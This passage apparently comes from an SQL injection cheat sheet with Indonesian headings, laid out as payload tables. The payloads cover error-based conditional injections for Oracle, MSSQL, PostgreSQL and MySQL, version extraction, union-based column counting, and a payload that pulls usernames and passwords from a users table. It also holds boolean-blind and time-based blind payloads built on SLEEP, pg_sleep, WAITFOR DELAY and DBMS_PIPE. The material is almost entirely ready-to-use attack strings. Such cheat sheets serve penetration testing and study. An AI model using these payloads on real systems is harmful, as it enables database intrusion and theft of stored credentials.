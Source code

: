 ### Conditional Errors (Error-based Condition)

| Database       | Payload                                                                                 |
| -------------- | --------------------------------------------------------------------------------------- |
| **Oracle**     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`      |
| **MSSQL**      | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`                         |
| **PostgreSQL** | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`          |
| **MySQL**      | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

---

## 3. Teknik Eksploitasi

### In-band SQLi

#### Error-based SQLi

| Deskripsi             | Payload                                                                              |
| --------------------- | ------------------------------------------------------------------------------------ |
| Versi DB (MSSQL)      | `' AND 1=CONVERT(int, @@version) --`                                                 |
| Versi DB (Oracle)     | `' AND 1=UTL_INADDR.GET_HOST_NAME((SELECT banner FROM v$version WHERE ROWNUM=1)) --` |
| Versi DB (PostgreSQL) | `' AND 1=(SELECT CAST(version() AS int)) --`                                         |

#### Union-based SQLi

| Deskripsi            | Payload                                                |
| -------------------- | ------------------------------------------------------ |
| Mencari Jumlah Kolom | `' ORDER BY 1--` _(lanjutkan 2, 3, dst. hingga error)_ |
| Ekstraksi Data       | `' UNION SELECT username, password FROM users --`      |

---

### Blind SQLi

#### Boolean-Based Blind

| Deskripsi                          | Payload                                                          |
| ---------------------------------- | ---------------------------------------------------------------- |
| Mengecek karakter pertama versi DB | `' AND (SELECT SUBSTRING(version(),1,1)) = '5' --`               |
| Mengecek panjang nama database     | `' AND (SELECT LENGTH(database())) > 10 --` _(MySQL/PostgreSQL)_ |

#### Time-Based Blind

| Deskripsi                      | Payload                                                                                         |
| ------------------------------ | ----------------------------------------------------------------------------------------------- |
| Delay jika benar (MySQL)       | `' AND IF(SUBSTRING(user(),1,1)='d', SLEEP(5), 0) --`                                           |
| Query delay murni (MySQL)      | `SELECT SLEEP(5);`                                                                              |
| Delay jika benar (PostgreSQL)  | `' AND (SELECT CASE WHEN (SUBSTRING(user(),1,1)='p') THEN pg_sleep(5) ELSE pg_sleep(0) END) --` |
| Query delay murni (PostgreSQL) | `SELECT pg_sleep(5);`                                                                           |
| Delay jika benar (MSSQL)       | `; IF (SUBSTRING(DB_NAME(),1,1)='m') WAITFOR DELAY '0:0:5' --`                                  |
| Query delay murni (MSSQL)      | `WAITFOR DELAY '0:0:5';`                                                                        |
| Delay jika benar (Oracle)      | `' AND 1=DBMS_PIPE.RECEIVE_MESSAGE('a',5) --`                                                   |